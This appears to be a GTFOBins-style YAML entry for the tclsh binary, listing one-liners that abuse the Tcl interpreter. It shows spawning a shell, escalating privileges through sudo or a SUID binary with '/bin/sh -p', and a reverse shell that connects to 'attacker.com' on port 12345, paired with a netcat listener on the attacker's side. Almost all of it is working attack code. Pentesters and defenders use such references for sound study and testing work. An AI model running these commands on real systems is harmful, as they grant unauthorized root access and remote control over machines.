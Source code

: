 ```yaml
---
functions:
  execute-interactive:
    - code: |
        tclsh
        exec /bin/sh <@stdin >@stdout 2>@stderr
  sudo-enabled:
    - code: |
        sudo tclsh
        exec /bin/sh <@stdin >@stdout 2>@stderr
  suid-enabled:
    - code: |
        ./tclsh
        exec /bin/sh -p <@stdin >@stdout 2>@stderr
  reverse-shell-non-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
---
```

